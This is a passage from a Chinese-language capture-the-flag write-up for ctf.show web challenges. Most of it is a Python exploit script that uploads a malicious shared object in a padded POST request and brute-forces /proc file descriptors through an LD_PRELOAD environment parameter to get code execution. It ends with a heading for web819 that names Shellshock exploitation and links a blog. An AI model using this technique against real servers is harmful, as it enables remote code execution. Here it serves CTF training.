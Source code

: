 ```php
		s=socket.socket()
		s.connect(('pwn.challenge.ctf.show',port))	
		x=b'''POST / HTTP/1.1
Host: 127.0.0.1
User-Agent: yu22x
Content-Length: '''+l+b'''
Content-Type: application/x-www-form-urlencoded
Connection: close

'''+open('hack.so','rb').read()+b'\n'*1024*200+b'''

'''
		s.send(x)
		s.close()

def bruter():
	while True:
		for fd in range(3,40):
			print(fd)
			s=socket.socket()
			s.connect(('pwn.challenge.ctf.show',port))
			s.send(f'''GET /?env=LD_PRELOAD=/proc/{pid}/fd/{fd} HTTP/1.1
Host: 127.0.0.1
User-Agent: yu22x
Connection: close

'''.encode())
			print(s.recv(2048).decode())
			s.close()


for i in range(30):
    t = threading.Thread(target=upload)
    t.start()
for j in range(30):
    a = threading.Thread(target=bruter)
    a.start()


```

##  web819

破壳漏洞的一些利用方式

[羽师傅的](https://blog.csdn.net/miuzzx/article/details/124038567?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165700916316781685398566%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=165700916316781685398566&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-124038567-null-null.185^v2^tag_show&utm_term=%E5%B8%B8%E7%94%A8%E5%A7%BF%E5%8A%BF&spm=1018.2226.3001.4450)
